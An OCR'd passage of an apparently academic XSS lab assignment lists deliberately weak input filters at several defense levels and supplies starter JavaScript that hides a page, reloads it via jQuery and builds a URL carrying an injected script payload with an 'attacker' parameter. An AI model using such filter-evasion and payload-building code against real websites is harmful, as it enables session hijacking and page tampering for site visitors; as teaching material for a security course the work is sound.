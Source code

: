 2.2 Remove several tags filtered = re.sub(r”(?i)script|&lt;img|&lt;body|&lt;style|&lt;meta|&lt;embed|&lt;object”, “”, input)

Target: <a href="http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=2">http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=2 </a>Submission: xss_2.txt

2.3 Remove some punctuation filtered = re.sub(r”[;’”]”, “”, input)

Target: <a href="http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=3">http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=3 </a>Submission: xss_3.txt

2.4 Encode &lt; and &gt; [Extra credit] filtered = input.replace(“&lt;“, “&amp;lt;”).replace(“&gt;”, “&amp;gt;”)

Target: <a href="http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=4">http://cs526-s18.cs.purdue.edu/project3/search?xssdefense=4 </a>Submission: xss_4.txt

What to submit Your submission for each level of defense will be a text file with the specified filename that contains a single line consisting of a URL. When this URL is loaded in a victim’s browser, it should execute the specified payload against the specified target. The payload encoded in your URLs must be self-contained, but they may embed CSS and JavaScript. Your payload may also load jQuery from the URL <a href="https://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js">http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js.</a> Make sure you test your solutions in Chrome, the browser we will use for grading.

<h1>Framework Code</h1>

You may build your solution from the following framework if you wish.

&lt;meta charset=”utf-8″&gt;

&lt;script src=”http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js”&gt;&lt;/script&gt; &lt;script&gt;

// Extend this function: function payload(attacker) {

function proxy(href) {

$(“html”).load(href, function(){

$(“html”).show();

$(“#query”).val(“pwned!”);

});

}

$(“html”).hide(); proxy(“./”);

}

function makeLink(xssdefense, target, attacker) { if (xssdefense == 0) { return target + “./search?xssdefense=” + xssdefense.toString() + “&amp;q=” + encodeURIComponent(“&lt;script” + “&gt;” + payload.toString()


“;payload(”” + attacker + “”);&lt;/script” + “&gt;”);

} else {

// Implement code to defeat XSS defenses here. }
